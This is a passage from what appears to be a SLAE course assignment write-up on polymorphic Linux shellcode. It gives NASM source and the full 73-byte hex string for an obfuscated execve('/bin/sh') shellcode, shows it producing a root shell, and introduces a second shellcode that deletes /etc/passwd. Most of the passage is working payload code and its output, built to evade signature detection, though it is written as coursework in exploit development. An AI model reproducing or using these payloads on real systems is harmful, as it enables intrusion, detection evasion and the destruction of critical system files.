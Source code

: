 ```nasm
    push eax
    xor eax,eax
    xor eax,[edi]
    push eax
    mov ebx,esp 

    xor eax,eax
    push eax
    lea edi,[ebx]
    push edi
    mov ecx,esp

    mov al,0xb              ; int execve(const char *filename, char *const argv[],char *const envp[]);

    int 0x80

here:
    call me
    path db 0x30,0x30,0x63,0x6a,0x6f,0x30,0x74,0x69 ; encoded //bin/sh string, we added 1 to each byte
```
  
Let's compile our polymorphic shellcode:  
```bash
# ./compile.sh execve_polymorphic
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
# objdump -d ./execve_polymorphic|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\xeb\x3a\x8b\x34\x24\x5f\x6a\x01\x58\x48\x50\x89\xe2\x31\xc9\xb1\x07\x8b\x04\x0f\x48\x89\x04\x0f\xfe\xc9\x79\xf5\x31\xc0\x50\x83\xc4\x03\x8d\x76\x06\x33\x46\xfe\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xc1\xff\xff\xff\x30\x30\x63\x6a\x6f\x30\x74\x69"
```
  
Let's run it into [shellcode.c](https://github.com/phackt/slae/tree/master/assignment6/execve/shellcode.c):  
```bash
# gcc -o shellcode shellcode.c && ./shellcode
Shellcode Length:  73
# id
uid=0(root) gid=0(root) groups=0(root)
```
  
Our polymorphic shellcode is 73 bytes so we are under the 52 * 1.5 = 78 bytes, perfect.  
<br />
### unlink /etc/passwd shellcode:  
  
For this second shellcode let's have a look at a [shellcode](http://shell-storm.org/shellcode/files/shellcode-560.php) that aims at unlinking the critical /etc/passwd file.  A quick ``` man 2 unlink ``` provides this information: ***unlink()** deletes a name from the filesystem.*.  Great, but please don't forget to backup your /etc/passwd file.  
    